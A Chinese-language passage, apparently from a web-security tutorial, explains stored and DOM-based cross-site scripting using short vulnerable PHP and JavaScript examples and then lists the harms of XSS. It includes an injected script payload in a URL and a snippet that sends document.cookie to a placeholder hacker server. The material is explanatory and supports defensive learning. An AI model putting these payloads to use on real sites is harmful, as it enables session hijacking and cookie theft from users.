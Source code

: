 

(2) 存储型XSS(Persistent XSS)，这类XSS攻击会把用户输入的数据“存储”在服务器端，具有很强的稳定性。注入脚本跟反射型XSS大同小异，只是脚本不是通过浏览器à服务器à浏览器这样的反射方式，而是多发生在富文本编辑器、日志、留言、配置系统等数据库保存用户输入内容的业务场景。即用户的注入脚本保存到了数据库里，其他用户进行访问涉及到包含恶意脚本的链接都会中招。由于这段恶意的脚本被上传保存到了服务器，这种XSS攻击就叫做“存储型XSS”。例如：



服务器端代码：<?php $db.set(‘name’, $_GET[‘name’]);?>



HTML页面代码：<?php echo ‘Hi,’ . $db.get[‘name’];?>





![img](http://f.wetest.qq.com/gqop/20000/LabImage_621b2fc1ccd15d6d19b1faf5d648bb85.jpg/0)

图6 存储型XSS攻击过程的示例图



(3) DOM based XSS(Document Object Model XSS)，这类XSS攻击者将攻击脚本注入到DOM 结构里。出现该类攻击的大多原因是含JavaScrip静态HTML页面存在XSS漏洞。例如下面是一段存在DOM类型跨站脚本漏洞的代码：



<script>document.write(window.location.search); </script>



在JS中window.location.search是指URL中?之后的内容，document.write是将内容输出到页面。这时把链接换成http://localhost/test.php?default=<script>alert(document.cookie)</script>



那用户的cookie就被盗了。上面的例子只是很简单的一种，总结起来是使用了诸如document.write, innerHTML之类的渲染页面方法需要注意参数内容是否是可信任的。



XSS攻击的危害，可以将XSS分为3类：



(1) 窃取用户信息。黑客可以利用跨站脚本漏洞盗取用户cookie而得到用户在该站点的身份权限。如在DOM树上新增图片，用户点击后会将当前cookie发送到黑客服务器：



vari=document.createElement("img");



document.body.appendChild(i);



i.src = "http://www.hackerserver.com/?c=" + document.cookie;



(2) 劫持浏览器会话来执行恶意操作，如进行非法转账、强制发表日志或电子邮件等。



(3) 强制弹广告页，刷流量和点击率。



(4) 传播跨站脚本蠕虫。如著名的Samy (XSS)蠕虫攻击、新浪微博蠕虫攻击。


